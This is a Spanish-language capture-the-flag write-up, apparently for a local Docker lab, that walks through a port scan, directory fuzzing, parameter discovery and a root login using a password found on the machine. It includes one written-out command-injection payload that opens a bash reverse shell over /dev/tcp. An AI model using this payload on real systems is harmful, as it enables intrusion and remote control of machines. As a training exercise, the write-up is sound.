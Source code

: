 >Lo primero es hacer un escaneo de puertos y servicios con nmap.

![Pasted image 20240710133744](https://github.com/user-attachments/assets/0682fbde-e40e-45a6-b036-ff6db31ef039)
>Accedo al servicio http y lo que encuentro es una web donde aparentemente no encuentro nada útil.

![Pasted image 20240710133806](https://github.com/user-attachments/assets/0ce5a9fb-6230-4eab-98ce-89db5825be1d)
>Al final de la página, encuentro el apartado de contacto donde dice que en el apartado /tmp de la máquina hay algo que puede ser interesante.

![Pasted image 20240710134112](https://github.com/user-attachments/assets/383eed6b-9e6a-428a-899b-31d112ed3c48)
>Procedo a hacer un poco de fuzzing web con la herramienta gobuster para ver si puedo descubrir algunos directorios que a simple vista se encuentran ocultos.

![Pasted image 20240710134958](https://github.com/user-attachments/assets/c1b77044-6ffd-4cf1-830b-59709d7285cf)
>Encuentro el apartado warning.html y shell.php.
>Accedo a la dirección warning.html y encuentro el siguiente mensaje.

![Pasted image 20240710140227](https://github.com/user-attachments/assets/377d20f8-a27b-4c91-bee4-228185d04881)
>Ahora decido acceder al apartado shel.php.

![Pasted image 20240710134025](https://github.com/user-attachments/assets/83fc3f70-d9f9-45ca-8d11-c4778fe2214b)
>Voy a suponer que el apartado shell.php actúa como una consola, por lo que posiblemente pueda inyectar código sql a través de la url.
>Para saber qué parámetro necesito para inyectar código, voy a hacer uso de la herramienta wfuzz de la siguiente manera.

![Pasted image 20240710135815](https://github.com/user-attachments/assets/15e48853-d4bf-4b29-8283-ecacee2b1d5c)
>La herramienta me ha reportado que el parámetro que necesito es parameter.
>Lo primero que hago es ponerme en escucha por el puerto indicado para posteriormente recibir una reverse shell y ganar acceso al sistema.

![Pasted image 20240710140152](https://github.com/user-attachments/assets/23cc038c-5782-46c6-af14-faeecd4f78f6)
>Ahora inyecto código a la url de manera que me proporcione una reverse shell a la ip y el puerto indicados.
``` sqli
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.2/4343 0>%261"
```

![Pasted image 20240710140212](https://github.com/user-attachments/assets/5c3efb47-7a12-4157-80c8-769174dc5190)
>Cuando ejecuto la inyección, gano acceso a un terminal.
>Soy el usuario www-data.
>Descubro un documento secreto.txt y listo su contenido, obteniendo una supuesta password contraseñaderoot123.

![Pasted image 20240710140412](https://github.com/user-attachments/assets/eb5aeeb1-1e74-4aaf-a622-bfb6b5272d56)
>Intento iniciar sesión como root introduciendo la posible password que he obtenido anteriormente.

![Pasted image 20240710140523](https://github.com/user-attachments/assets/3f5e9e32-988c-4957-8cc7-7470ef144d49)
